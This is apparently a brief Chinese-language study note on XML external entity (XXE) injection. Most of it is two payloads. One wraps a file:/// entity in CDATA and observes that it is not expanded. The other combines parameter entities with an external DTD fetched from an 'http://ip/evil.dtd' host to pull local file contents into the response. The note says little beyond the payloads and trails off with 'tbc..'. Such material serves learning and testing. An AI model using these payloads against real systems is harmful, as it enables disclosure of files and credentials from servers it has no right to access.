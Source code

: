 在引用上加`<![CDATA[]]>`

  

```xml

<?xml version="1.0" encoding="utf-8"?>

<!DOCTYPE creds [

   <!ENTITY goodies SYSTEM "file:///C:/Users/haerinwon/Desktop/ai.txt">

]>

<creds><![CDATA[&goodies;]]></creds>

```

得到结果是`&goodies;`

  

<hr>

  
  

```xml

//payload

<?xml version="1.0" encoding="utf-8"?>

<!DOCTYPE roottag [

<!ENTITY % start "<![CDATA[">  

<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  

<!ENTITY % end "]]>">  

<!ENTITY % dtd SYSTEM "http://ip/evil.dtd">

%dtd; ]>

  

<roottag>&all;</roottag>

  

//evil.dtd

<?xml version="1.0" encoding="UTF-8"?>

<!ENTITY all "%start;%goodies;%end;">

```

  

tbc..
